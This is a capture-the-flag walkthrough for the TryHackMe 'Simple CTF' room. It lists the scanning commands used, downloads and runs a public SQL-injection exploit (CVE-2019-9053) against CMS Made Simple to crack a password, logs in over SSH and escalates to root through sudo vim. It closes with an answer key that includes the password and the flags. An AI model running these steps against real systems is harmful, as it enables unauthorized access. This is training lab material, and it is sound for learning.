






# Simple CTF


[Simple CTF](https://tryhackme.com/room/easyctf) is listed as an easy room, and covers a lot of different tools and aspects of security, which makes it a great room to complete for beginners.
An overview of what we’ll be using is listed here:  

* Basic linux commands
* Nmap scan
* Gobuster
* Searchsploit

## Set up environment IP as target IP_MACHINE

```
export IP=10.10.179.1
```  


## Enumeration and Scanning

* Check the IP from browser 

	

* Scan open port with nmap

	```
	nmap -sV -sC $IP | tee nmap-scan.txt
	```  

	File scan resulted [here](./files/nmap-scan.txt)  

	

* Scan directory with gobuster
	
	* Default directory scan
		
		```
		gobuster dir -u $IP -w /usr/share/wordlists/dirb/common.txt | tee gobuster-default.txt
		```  

		File scan resulted [here](./files/gobuster-default.txt)  

		

	* Sub directory scan
		
		```
		gobuster dir -u $IP/simple -w /usr/share/wordlists/dirb/common.txt | tee gobuster-simple.txt
		```  
		
		File scan resulted [here](./files/gobuster-simple.txt)  

		

* Try to open website

	* Check the sub directory
		
		

	* Check website version
	
		

	* Check website posted
	
		


* Find Exploit from DB

	* Search exploit 
		
		```
		searchsploit CMS made simple 2.2.8
		```  

		

	* Download exploit file
		
		```
		searchsploit -m php/webapps/46635.py
		```  

		

	* Check CVE number 
		
		```
		nano 46635.py
		```  

		


## Gaining Acecss & Exploitation

* Run the exploit file with python2

	```
	python2 46635.py -u http://$IP/simple --crack -w /usr/share/wordlists/rockyou.txt
	```  

	
	
	Resulted  

	

* Login to target machine

	```
	ssh -p 2222 mitch@$IP
	```

	

* Get the user.txt

	

* Get root access

	* Check privilege escalation with sudo
	
		```
		sudo -l
		```  

		

	* Run sudo to get root access
	
		```
		sudo vim -c ':!/bin/sh'
		```  

		

	* Get `root.txt`
	
		

## Questions and Answers

* How many services are running under port 1000?

	`2`
	
* What is running on the higher port?

	`ssh`
	
* What's the CVE you're using against the application? 

	`CVE-2019-9053`
	
* To what kind of vulnerability is the application vulnerable?

	`SQLi`

* What's the password?

	`secret`

* Where can you login with the details obtained?

	`ssh`
	
* What's the user flag?

	`G00d j0b, keep up!`
		
* Is there any other user in the home directory? What's its name?

	`sunbath`
	
* What can you leverage to spawn a privileged shell?

	`vim`
	
* What's the root flag?

	`W3ll d0n3. You made it!`
